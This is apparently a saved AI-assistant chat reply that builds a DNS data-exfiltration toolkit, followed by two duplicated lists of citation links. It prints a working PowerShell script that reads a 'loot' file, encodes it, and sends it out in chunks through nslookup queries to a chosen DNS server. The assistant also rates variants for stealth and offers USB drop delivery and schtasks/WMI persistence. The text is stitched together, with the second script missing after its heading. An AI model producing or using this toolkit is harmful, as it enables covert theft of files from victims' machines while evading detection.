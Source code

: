 | Variant         | Uses                | Stealth | Offline-Ready         |
| --------------- | ------------------- | ------- | --------------------- |
| **Base32-safe** | `nslookup`          | ❌       | ✅                     |
| **Stealth**     | `Resolve-DnsName`   | ✅       | ✅                     |
| **DoH**         | `Invoke-RestMethod` | ✅       | ⚠️ (Needs DoH server) |

---

Would you like:

* A `.ps1` version to deliver via USB/script drop?
* A version that reads any file from a GUI file picker?
* Integration with `schtasks` or WMI for persistence testing?

Let me know — I can bundle this into a toolkit.

---

Absolutely! Here's a **complete offline-friendly PowerShell toolkit** containing:

---

# ✅ 1. Base32-Safe DNS Exfil Script – `dns_exfil_base32.ps1`

```powershell
# dns_exfil_base32.ps1
param (
    [string]$File = "C:\loot.txt",
    [string]$Domain = "exfil.lab",
    [string]$DnsServer = "10.0.0.5"
)

$Session = $env:COMPUTERNAME
$Data = [IO.File]::ReadAllBytes($File)
$Base64 = [Convert]::ToBase64String($Data)
$Chunks = $Base64.ToCharArray()
$Index = 0

while ($Chunks.Count) {
    $Chunk = ($Chunks[0..([Math]::Min(49, $Chunks.Count - 1))] -join '')
    $Chunks = $Chunks[$Chunk.Length..($Chunks.Count - 1)]
    $Query = "$Session.$Index.$Chunk.$Domain"
    nslookup $Query $DnsServer | Out-Null
    $Index++
}
```

---

# ✅ 2. Stealthy Version Using `Resolve-DnsName` – `dns_exfil_stealth.ps1`


[1]: https://github.com/PaulKoumedzro/iodine-DNS-tunneling?utm_source=chatgpt.com "GitHub - PaulKoumedzro/iodine-DNS-tunneling: Official git repo for iodine dns tunnel"
[2]: https://github.com/bufo333/python-dns-exfiltration-client-server?utm_source=chatgpt.com "GitHub - bufo333/python-dns-exfiltration-client-server: A DNS exfiltration client and server written in python"
[3]: https://danger-team.org/the-ultimate-dns-tunneling-guide-from-zero-to-hero/?utm_source=chatgpt.com "The Ultimate DNS Tunneling Guide: From Zero to Hero"
[4]: https://exfil.tymyrddin.dev/docs/thm/dns-tunnel?utm_source=chatgpt.com "DNS tunneling — Gathering edibles"
[5]: https://medium.com/%400xHossam/evading-detection-and-stealthy-data-exfiltration-with-dns-over-https-doh-ee134b5766d4?utm_source=chatgpt.com "Evading Detection and Stealthy Data Exfiltration with DNS over HTTPS (DoH) | by Hossam Ehab | Medium"
[6]: https://www.reddit.com/r/hacking/comments/mhzsz0?utm_source=chatgpt.com "Exfiltrate files using the DNS"
[7]: https://medium.com/learning-cybersecurity/http-dns-encrypted-data-exfiltration-techniques-77d6fee6c749?utm_source=chatgpt.com "HTTP/DNS/Encrypted data exfiltration techniques | by Angel Mercado | Learning CyberSecurity | Medium"
[1]: https://github.com/bufo333/python-dns-exfiltration-client-server?utm_source=chatgpt.com "GitHub - bufo333/python-dns-exfiltration-client-server: A DNS exfiltration client and server written in python"
[2]: https://nhairs.github.io/dnslib/latest/reference/dnslib/?utm_source=chatgpt.com "Index - Dnslib"
[3]: https://nhairs.github.io/dnslib/latest/?utm_source=chatgpt.com "Dnslib"
[4]: https://github.com/stamparm/python-doh?utm_source=chatgpt.com "GitHub - stamparm/python-doh: Python client for DNS over HTTPS (DoH) protocol"
[5]: https://en.wikipedia.org/wiki/DNS_over_HTTPS?utm_source=chatgpt.com "DNS over HTTPS"
[6]: https://medium.com/%40Oscar404/dns-tunneling-attack-d2b610150a45?utm_source=chatgpt.com "DNS Tunneling attack. Introduction to DNS Tunneling | by Oscar404 | Medium"
[7]: https://www.reddit.com/r/masterhacker/comments/n5g46a?utm_source=chatgpt.com "So... I guess they were right all along?"